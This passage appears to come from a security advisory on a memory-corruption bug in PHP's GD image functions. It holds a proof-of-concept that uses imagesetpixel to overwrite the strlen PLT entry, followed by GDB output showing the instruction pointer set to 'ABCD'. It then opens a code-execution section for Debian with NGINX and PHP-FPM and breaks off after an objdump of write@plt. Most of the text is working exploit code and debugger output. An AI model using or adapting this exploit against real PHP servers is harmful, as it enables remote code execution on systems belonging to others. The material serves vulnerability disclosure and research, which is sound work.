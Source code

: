 ```
// Allocate palette colors
for ($i = 0; $i < 256; $i++) imagecolorallocatealpha($img, $i, $i, $i, $i);

// Overwrite strlen plt address with 0x44434241
imagesetpixel($img, $plt_strlen, 0, 0x41);
imagesetpixel($img, $plt_strlen+1, 0, 0x42);
imagesetpixel($img, $plt_strlen+2, 0, 0x43);
imagesetpixel($img, $plt_strlen+3, 0, 0x44);
```

GDB output:
```
gdb -q --args /home/user/php/php-70/sapi/cli/php poc3.php
No symbol table is loaded.  Use the "file" command.
Breakpoint 1 (__asan_report_error) pending.
Reading symbols from /home/user/php/php-70/sapi/cli/php...done.
gdb-peda$ r
Starting program: /home/user/php/php-70/sapi/cli/php poc3.php

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8b91660 ("text/html")
EBX: 0x8b47000 --> 0x8b46db8 --> 0x1 
ECX: 0xee50aaae 
EDX: 0xffffbe98 --> 0x8b47000 --> 0x8b46db8 --> 0x1 
ESI: 0x8b47000 --> 0x8b46db8 --> 0x1 
EDI: 0x8b7a518 --> 0x0 
EBP: 0xffffba38 --> 0xffffbb98 --> 0xffffbba8 --> 0xffffbbb8 --> 0xffffbbd8 --> 0xffffc2e8 (--> ...)
ESP: 0xffffb9fc --> 0x83e6d0e (<get_default_content_type+70>:	add    esp,0x10)
EIP: 0x44434241 ('ABCD')
EFLAGS: 0x10292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x44434241
[------------------------------------stack-------------------------------------]
0000| 0xffffb9fc --> 0x83e6d0e (<get_default_content_type+70>:	add    esp,0x10)
0004| 0xffffba00 --> 0x8b91660 ("text/html")
0008| 0xffffba04 --> 0x0 
0012| 0xffffba08 --> 0x8a62758 ("/home/user/php/php-70/Zend/zend_hash.c")
0016| 0xffffba0c --> 0x83e6cd4 (<get_default_content_type+12>:	add    ebx,0x76032c)
0020| 0xffffba10 --> 0x0 
0024| 0xffffba14 --> 0x8474df1 (<zend_hash_iterators_remove+8>:	add    eax,0x6d220f)
0028| 0xffffba18 --> 0x8b91660 ("text/html")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x44434241 in ?? ()
gdb-peda$ 
```
Code execution
--------------
```
<?php
// Tested on Debian x86 Jessie update + NGINX + PHP-FPM

/*
 objdump -d /usr/sbin/php5-fpm |grep -A 2 write|more

08096b50 <write@plt>:
 8096b50:       ff 25 a4 93 96 08       jmp    *0x89693a4
 8096b56:       68 30 07 00 00          push   $0x730

*/

```